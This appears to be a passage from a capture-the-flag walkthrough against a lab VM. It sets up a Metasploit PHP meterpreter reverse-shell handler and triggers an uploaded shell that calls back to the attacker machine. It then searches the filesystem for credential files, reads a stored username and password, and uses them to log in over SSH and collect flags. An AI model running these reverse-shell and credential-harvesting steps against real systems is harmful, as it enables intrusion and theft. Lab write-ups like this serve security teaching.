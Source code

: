 Setting up the Handler
```shell
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
```
call this link http://10.0.2.24/uploaded_files/met_shell.php

```shell
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
[*] Sending stage (37775 bytes) to 10.0.2.24
[*] Meterpreter session 1 opened (10.0.2.7:4444 -> 10.0.2.24:33224) at 2019-01-13 05:02:57 -0500

meterpreter > 
```
so lets go back where we left it says the username and password are stored somewhere hidden so if we used **find** tool we can search for something like password.txt creds.txt and try some other regular expressions and you can use wild cards like ```*```

```shell
$ find / -name "cred*.txt" 2> /dev/null
/etc/mysql/conf.d/credentials.txt
```
**Side Note** i used /dev/null so I don't get a whole list for errors or permission denied 

so reading this file we have the following 
```shell
$ cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
```
Lets SSH and this user 

```shell
root@kali:~# ssh technawi@10.0.2.24 
The authenticity of host '10.0.2.24 (10.0.2.24)' can't be established.
ECDSA key fingerprint is SHA256:ThPvIGqyDX2PSqt5JWHyy/J/Hy2hK5aVcpKTpkTKHQE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.2.24' (ECDSA) to the list of known hosts.
technawi@10.0.2.24's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Fri Apr 21 17:22:16 2017
technawi@Jordaninfosec-CTF01:~$ 
```
lets try to read /var/www/html/flag.txt
```shell
technawi@Jordaninfosec-CTF01:~$ cat /var/www/html/flag.txt 
The 5th flag is : {5473215946785213456975249}

Good job :)
```
